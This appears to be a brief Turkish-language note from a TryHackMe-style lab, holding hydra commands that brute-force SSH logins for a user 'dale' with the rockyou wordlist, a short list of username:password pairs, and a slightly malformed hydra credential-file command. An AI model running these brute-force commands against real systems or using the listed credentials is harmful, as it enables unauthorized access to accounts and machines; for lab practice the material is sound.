 *** ssh için dale ismi ile bruteforce ***

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://team.thm
```
veya

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://10.10.10.10
```
claire-r:Password1

chris-r:letmein

jill-v:sunshinel

barry-b:sandwich

``` bash
hydra -C file ssh//10.10.1.1 -T4 
```
